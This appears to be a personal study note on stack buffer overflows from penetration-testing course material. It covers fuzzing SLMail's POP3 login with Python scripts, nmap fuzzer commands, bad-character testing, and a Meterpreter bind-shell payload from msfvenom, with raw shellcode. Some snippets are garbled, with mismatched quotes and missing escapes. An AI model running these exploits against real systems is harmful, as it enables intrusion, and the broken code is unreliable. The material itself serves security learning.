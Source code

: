 ```yaml
---
id: 2023-01-11-buffer-overflows
title: buffer overflows
metaTitle: Buffer Overflows | Anas's Digital Garden
metaDescription: buffer overflows | Anas's Digital Garden
createdDate: 2023-01-11
updatedDate: 2023-01-18
weekNumber: 202302
category: security/buffer-overflows
tags: ["buffer-overflows", "buffer-overflows"]
---
```


# Buffer Overflows

Those are the main ways of identifying flaws in applications

- If the source code of the application is available, then source code review is probably the easiest way to identify  
  bugs.
- If the application is closed source, you can use reverse engineering techniques, or fuzzing, to find bugs.

## A Look inside Stack while a Simple App is Running

![None](./images/inside-stack.png)

## Fuzzing

- Fuzzing involves sending malformed data into application input and watching for unexpected crashes.
- An unexpected crash indicates that the application might not filter certain input correctly. This could lead to  
  discovering an exploitable vulnerability.
- Nmap Fuzzers:
  - NMap Fuzzer List  
    [https://nmap.org/nsedoc/categories/fuzzer.html](https://nmap.org/nsedoc/categories/fuzzer.html)

  - NMap HTTP Form Fuzzer

    ```
      nmap --script http-form-fuzzer --script-args
      'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}'
      -p 80 $ip
    ```

  - Nmap DNS Fuzzer

    ```
    nmap --script dns-fuzz --script-args timelimit=2h $ip -d
    ```

- MSFvenom  
  [_https://www.offensive-security.com/metasploit-unleashed/msfvenom/_](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

### A Word about Dep and Aslr

- **DEP** (Data Execution Prevention) is a set of hardware, and software, technologies that perform additional checks on  
  memory, to help prevent malicious code from running on a system.
- The primary benefit of **DEP** is to help prevent code execution from data pages, by raising an exception, when  
  execution occurs.
- **ASLR** (Address Space Layout Randomization) randomizes the base addresses of loaded applications, and DLLs, every  
  time the Operating System is booted.

#### Interacting with the POP3 Protocol

> if the protocol under examination was unknown to us, we would either need to look up the RFC of the protocol format, or learn it ourselves, using a tool like Wireshark.

- To reproduce the netcat connection usage performed earlier in the course using a Python script, our code would look  
  similar to the following

```python
#!/usr/bin/python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  print
  "\nSending vil buffer..."
  s.connect(('10.0.0.22', 110))  # connect to IP, POP3 port
  data = s.recv(1024)  # receive banner
  print
  data  # print banner

  s.send('USER   test' + '\r\n')  # end username "test"
  data = s.recv(1024)  # receive reply
  print
  data  # print reply

  s.send('PASS test\r\n')  # send password "test"
  data = s.recv(1024)  # receive reply
  print
  data  # print reply

  s.close()  # close socket
  print
  "\nDone!"

except:
  print
  "Could not connect to POP3!"
```

- Taking this simple script and modifying it to fuzz the password field during the login process is easy. The resulting  
  script would look like the following.

```python
#!/usr/bin/python
import socket

# Create an array of buffers, from 10 to 2000, with increments of 20.
buffer = ["A"]
counter = 100

while len(buffer) <= 30:
  buffer.append("A" * counter)
  counter = counter + 200

for string in buffer:
  print
  "Fuzzing PASS with %s bytes" % len(string)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.recv(1024)
  s.send('USER test\r\n')
  s.recv(1024)
  s.send('PASS ' + string + '\r\n')
  s.send('QUIT\r\n')
  s.close()
```

- Run this script against your SLMail instance, while attached to **Immunity Debugger**.
- The results of running this script shows that the **Extended Instruction Pointer (EIP)** register has been overwritten  
  with our input buffer of A's (the hex equivalent of the letter A is \x41).
- This is of particular interest to us, as the EIP register also controls the execution flow of the application.
- This means that if we craft our exploit buffer carefully, we might be able to divert the execution of the program to a  
  place of our choosing, such as a into the memory where we can introduce some reverse shell code, as part of our  
  buffer.

![Execution Halted in OllyDbg](../../assets/images/posts/buffer-overflow/33.png)

## Check for Bad Characters

```bash
>> python -c \
'print "A"*80 + "B"*4 + \
"x01x02x03x04x05x06x07x08x09x0ax0bx0cx0dx0ex0fx10" + \
"x11x12x13x14x15x16x17x18x19x1ax1bx1cx1dx1ex1fx20" + \
"x21x22x23x24x25x26x27x28x29x2ax2bx2cx2dx2ex2fx30" + \
"x31x32x33x34x35x36x37x38x39x3ax3bx3cx3dx3ex3fx40" + \
"x41x42x43x44x45x46x47x48x49x4ax4bx4cx4dx4ex4fx50" + \
"x51x52x53x54x55x56x57x58x59x5ax5bx5cx5dx5ex5fx60" + \
"x61x62x63x64x65x66x67x68x69x6ax6bx6cx6dx6ex6fx70" + \
"x71x72x73x74x75x76x77x78x79x7ax7bx7cx7dx7ex7fx80" + \
"x81x82x83x84x85x86x87x88x89x8ax8bx8cx8dx8ex8fx90" + \
"x91x92x93x94x95x96x97x98x99x9ax9bx9cx9dx9ex9fxa0" + \
"xa1xa2xa3xa4xa5xa6xa7xa8xa9xaaxabxacxadxaexafxb0" + \
"xb1xb2xb3xb4xb5xb6xb7xb8xb9xbaxbbxbcxbdxbexbfxc0" + \
"xc1xc2xc3xc4xc5xc6xc7xc8xc9xcaxcbxccxcdxcexcfxd0" + \
"xd1xd2xd3xd4xd5xd6xd7xd8xd9xdaxdbxdcxddxdexdfxe0" + \
"xe1xe2xe3xe4xe5xe6xe7xe8xe9xeaxebxecxedxeexefxf0" + \
"xf1xf2xf3xf4xf5xf6xf7xf8xf9xfaxfbxfcxfdxfexff"'
```

## Generate Meterpreter Bind-tcp Payload

```bash
>> msfvenom -p linux/x86/meterpreter/bind_tcp -b="0x00" -f python
```

```bash
# using output from last command we can create our full payload
python -c \
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + \
"BBBB" + \
'print "A"*80 + "B"*4 + "x90" * (400 - 137) + \
"\xba\x8a\x2a\xb0\xa4\xd9\xed\xd9\x74\x24\xf4\x5d\x31" + \
"\xc9\xb1\x1c\x31\x55\x14\x03\x55\x14\x83\xed\xfc\x68" + \
"\xdf\xda\xd9\x34\xb9\xa9\x25\x7d\xb9\xdd\x29\x7d\x33" + \
"\x3e\x4f\xfc\xa0\xc1\x60\x33\xa6\xf3\x5b\x3c\x44\xa0" + \
"\x18\x91\xe1\x45\x16\xf4\x46\x2f\xe5\x76\xf7\xda\xf1" + \
"\x22\x92\x18\x90\xcb\x32\x8a\xed\x2a\xd8\xba\xb6\xc6" + \
"\x7b\x9b\x85\x96\x13\x98\xd2\x82\x42\xc4\x84\xf8\x1c" + \
"\xf8\x38\xed\x80\x96\x28\x5c\x69\xee\xa8\x34\xef\xa8" + \
"\xe7\x48\x3e\xab\x48\x2e\x0c\xac\xf9\xed\x3e\xcb\x70" + \
"\xa0\x3a\xd9\x03\xd1\xf5\xed\xb3\xd6\x34\x6d\x34\x07" + \
"\x9d\xde\x3d\x7a\xa2\xe0\xa3"'
```
